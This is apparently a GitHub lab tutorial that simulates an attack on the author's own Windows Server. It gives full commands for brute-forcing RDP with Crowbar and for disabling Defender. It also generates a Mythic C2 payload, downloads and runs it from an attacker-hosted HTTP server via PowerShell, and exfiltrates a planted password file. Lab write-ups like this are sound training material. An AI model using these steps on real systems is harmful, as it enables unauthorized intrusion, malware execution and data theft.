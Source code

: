 # Day-21-Simulating-a-Brute-Force-Attack-with-Mythic-C2

In today’s guide, we will dive into an exciting exercise where we perform a brute force attack on a Windows server and generate our own Mythic agent to establish a Command and Control (C2) session. For this demonstration, we’ll use **Kali Linux**, **Mythic C2**, and a **Windows Server** hosted on Vultr’s cloud platform. By the end, you’ll have a complete walkthrough of the attack phases—from brute-forcing a password to executing payloads on a compromised Windows machine.

## Attack Phases

The guide is divided into six attack phases:

1. **Initial Access**
2. **Discovery**
3. **Defense Evasion**
4. **Execution**
5. **Command & Control**
6. **Exfiltration**

> **Disclaimer**: This tutorial is for educational purposes only. Do NOT attempt this on any system you don’t have permission to access. Engaging in unauthorized hacking activities can lead to legal consequences.

---

## Setting Up for the Attack

Before jumping into the action, let’s set up our environment. I’m using **Vultr** to host a Windows server, but you can use any cloud platform.

### Step 1: Create a Fake File on Windows Server

1. Log in to your Vultr account and open the Windows Server console.
2. Create a file called `passwords.txt` on the server’s desktop.
3. Write a fake password (e.g., `Winter123!`) to simulate sensitive information.
4. Change the server password via Group Policy, reducing the minimum password character limit to 5, and update your password.

---

## Attack Walkthrough

### Phase 1: Initial Access — Brute Force Attack Using Kali Linux

#### Step 1: Setting Up the Target — Fake Password File

1. Log in to your Windows Server and create a file called `passwords.txt` on the desktop.
2. Write a fake password (e.g., `SuperSecret123!`).
3. Update the server’s password by allowing shorter passwords (minimum 5 characters).

#### Step 2: Prepare a Custom Wordlist in Kali Linux

1. Navigate to the wordlist directory:
    ```bash
    cd /usr/share/wordlists
    ```
2. Use the first 50 lines of the `brute.txt` wordlist to create a smaller list:
    ```bash
    head -50 brute.txt > /home/kali/aurora-wordlist.txt
    ```
    ![Example Image](https://raw.githubusercontent.com/Virus192/Day-21-Simulating-a-Brute-Force-Attack-with-Mythic-C2/refs/heads/main/Images/photo_6017298952233272262_w.jpg)
    
3. Edit the wordlist and insert the real password for proof of concept:
    ```bash
    nano /home/kali/aurora-wordlist.txt
    ```

#### Step 3: Brute Force the Windows RDP Login

1. Install Crowbar, a brute-force tool for RDP:
    ```bash
    sudo apt-get install -y crowbar
    ```
2. Run Crowbar to brute force the RDP login:
    ```bash
    crowbar -b rdp -u Administrator -C /home/kali/brute.txt -s [Windows-Server-IP]/32
    ```

### Phase 2: Discovery — Gathering Information on the Compromised Server

1. RDP into the Windows Server using `xfreerdp`:
    ```bash
    xfreerdp /u:Administrator /p:[Brute-Forced-Password] /v:[Windows-Server-IP]:3389
    ```
2. Execute basic discovery commands:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```

### Phase 3: Defense Evasion — Disabling Windows Defender

1. Open Windows Security and go to **Virus & Threat Protection**.
2. Turn off **Real-time protection**.

### Phase 4: Execution — Deploying the Mythic C2 Agent

#### Step 1: Install the Apollo Agent in Mythic

1. Install the Apollo agent:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicAgents/Apollo.git
    ```
    ![Example Image](https://raw.githubusercontent.com/Virus192/Day-21-Simulating-a-Brute-Force-Attack-with-Mythic-C2/refs/heads/main/Images/photo_6017298952233272252_w.jpg)


#### Step 2: Install the HTTP C2 Profile

1. Install the HTTP C2 Profile:
    ```bash
    ./mythic-cli install GitHub https://github.com/MythicC2Profiles/http
    ```

#### Step 3: Generate the Payload

1. In Mythic’s GUI, generate a new payload for Windows using the HTTP C2 profile.

#### Step 4: Download the Payload via SSH

1. Download the payload with `wget`:
    ```bash
    wget [payload-url] --no-check-certificate
    ```

#### Step 5: Host the Payload on an HTTP Server

1. Serve the payload using Python HTTP server:
    ```bash
    python3 -m http.server 9999
    ```
2. Allow traffic through the firewall:
    ```bash
    sudo ufw allow 9999
    ```

#### Step 6: Download and Execute the Payload on Windows Server

1. Download the payload using PowerShell:
    ```powershell
    Invoke-WebRequest -Uri http://[Mythic-Server-IP]:9999/svc-aurora.exe -Outfile "C:\Users\Public\downloads\svc-aurora.exe"
    ```

2. Execute the payload:
    ```powershell
    .\svc-aurora.exe
    ```

### Phase 5: Command & Control — Establishing a C2 Session

1. Confirm the callback in Mythic’s GUI.
2. Interact with the compromised server using Mythic.

### Phase 6: Exfiltration — Stealing the Fake Password File

1. Download the fake file using Mythic:
    ```bash
    download C:\Users\Administrator\Documents\passwords.txt
    ```

---

## Conclusion: Power and Responsibility

While this attack scenario demonstrates the power of tools like Mythic C2, remember to use this knowledge ethically and responsibly. Always have explicit permission before testing any system.

In the next blog, we’ll focus on defensive measures to detect and monitor Mythic C2 activities. Stay tuned!

---

### Safety Disclaimer

This guide is designed for educational purposes. Unauthorized access to computer systems is illegal and unethical. Use these skills to secure systems, not exploit them.

